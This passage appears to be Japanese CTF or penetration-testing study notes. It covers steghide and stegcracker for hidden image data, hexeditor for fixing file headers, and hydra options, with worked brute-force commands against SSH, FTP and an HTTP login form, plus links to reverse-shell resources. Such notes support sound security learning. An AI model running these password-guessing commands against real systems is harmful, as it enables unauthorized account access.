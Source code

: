 ```
# 埋め込まれたデータを取り出す
steghide extract -v -p $PASSWORD -sf ./image-file

# stegcracker
# steghideでパスフレーズが求められる場合総当りする
stegcracker -V ./image-file /path/to/wordlist
```

画像がうまく開けない場合マジックナンバーが不正なことが多い。バイナリエディタで直接編集する。

[File Magic Numbers](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)

```
# hexeditor
hexeditor ./image-file
```
- 矢印キーで上下左右に移動
- F2で保存
- F3でファイルを開く
- Ctrl-Xで保存して閉じる


## hydra
- `-l` ... ログインユーザーを指定する
- `-L` ... ファイル指定をすると複数ユーザーで試行する
- `-p` ... パスワードを指定する
- `-P` ... ファイル指定をすると複数パスワードで試行する
- `-s` ... ポート番号を指定する
- `-v` ... 結果を詳細に出力する
- `-S` ... SSLを使う
- `-o` ... 結果をファイルに書き込む
- `-w` ... 試行までの待ち時間


以下に例。
```
# SSH
hydra -l admin -P /path/to/wordlist $MACHINE_IP ssh

# FTP
hydra -l admin -P /path/to/wordlist $MACHINE_IP ftp

# HTTP(POST)
hydra -l admin -P /path/to/wordlist $MACHINE_IP http-get-form '/hidden/login/:username=^USER^&password=^PASS^:$FAILED_MESSAGE'
```
HTTPやHTPPSでリクエストを送るとき、最後の部分は`IP以外のURL:body部分:失敗時のメッセージ`のフォーマットになる。ここで`^USER^`と`^PASS^`と書けばそこにログインユーザーとパスワードをそれぞれ当てはめて試行される。また、`$FAILED_MESSAGE`にはログイン失敗時に表示されるメッセージを書く。ここの書き方を間違えるとすべてのパターンでログインが成功扱いになってしまう。


## リバースシェル
- 基本事項は[TryHackMeのこのroom](https://tryhackme.com/room/introtoshells)で学べる
- リバースシェル本体を手に入れるときは[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)を使う
